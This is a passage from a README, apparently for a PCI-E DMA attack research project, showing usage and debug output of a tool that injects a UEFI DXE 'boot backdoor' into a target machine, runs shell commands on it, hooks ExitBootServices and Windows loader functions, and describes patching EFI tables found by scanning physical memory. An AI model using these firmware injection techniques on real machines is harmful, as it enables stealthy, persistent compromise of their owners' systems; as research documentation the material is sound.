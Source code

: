 ```
$ ./uefi_backdoor_boot_shell.py --attach --command "hostname"
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Payload shared memory region is at 0x00200000
[+] Executing command: hostname
[+] Process exit code: 0x00000000

DESKTOP-E52IJJ8
```

Also, you can use `--debug-output` option to get debug messages of Boot Backdoor UEFI DXE driver and print them into the stdout:

```
$ ./uefi_backdoor_boot_shell.py --debug-output
[+] PCI-E link with target is up
[+] Debug output buffer address is 0x79da2000

DmaBackdoorBoot.c(630) : ******************************
DmaBackdoorBoot.c(631) :
DmaBackdoorBoot.c(632) :   Boot backdoor loaded!
DmaBackdoorBoot.c(633) :
DmaBackdoorBoot.c(634) : ******************************
DmaBackdoorBoot.c(668) : Image address is 0xc0000
DmaBackdoorBoot.c(711) : Payload is not present
DmaBackdoorBoot.c(276) : BackdoorImageRealocate(): image size = 0xf500
DmaBackdoorBoot.c(722) : Resident code base address is 0x79d8c000
DmaBackdoorBoot.c(430) : Protocol notify handler is at 0x79d8c364
DmaBackdoorBoot.c(455) : BackdoorEntryResident()
DmaBackdoorBoot.c(464) : ExitBootServices() hook was set, handler = 0x79d8ded7
DmaBackdoorBoot.c(358) : new_ExitBootServices() called
Winload.c(419) : WinloadHook(): winload image is at 0x86a000
Winload.c(507) : winload!HvlpBelow1MbPage is at 0xa037c8
Winload.c(508) : winload!HvlpBelow1MbPageAllocated is at 0xa037b9
Winload.c(587) : winload!OslArchTransferToKernel() is at 0x9c4b20
```

To get more information about Boot Backdoor use cases and features [check its README file](https://github.com/Cr4sh/s6_pcie_microblaze/blob/master/python/payloads/DmaBackdoorBoot/README.MD) with detailed information.

Python programs `uefi_backdoor_simple.py`, `uefi_backdoor_hv.py`, `uefi_backdoor_boot.py` and `uefi_backdoor_boot_shell.py` supports two different ways to pass execution to the injected UEFI DXE driver image:

 * `EFI_SYSTEM_TABLE` hijack &minus; scan system memory down from physical address `0xf0000000` to `0` with `0x10000` bytes step in order to find EFI system table by its signature and patch `LocateProtocol()` function address. To override memory scan options you can use `SCAN_FROM` and `SCAN_STEP` environment variables.

 * `PROTOCOL_ENTRY` hijack &minus; scan system memory up from physical address `0x76000000` to `0xa0000000` with `0x1000` bytes step to find `EFI_CPU_IO2_PROTOCOL` structure of [CPU I/O 2 protocol](https://github.com/tianocore/edk2/blob/master/MdePkg/Include/Protocol/CpuIo2.h) and patch one of its functions. To override memory scan options you can use `SCAN_FROM`, `SCAN_TO` and `SCAN_STEP` environment variables.
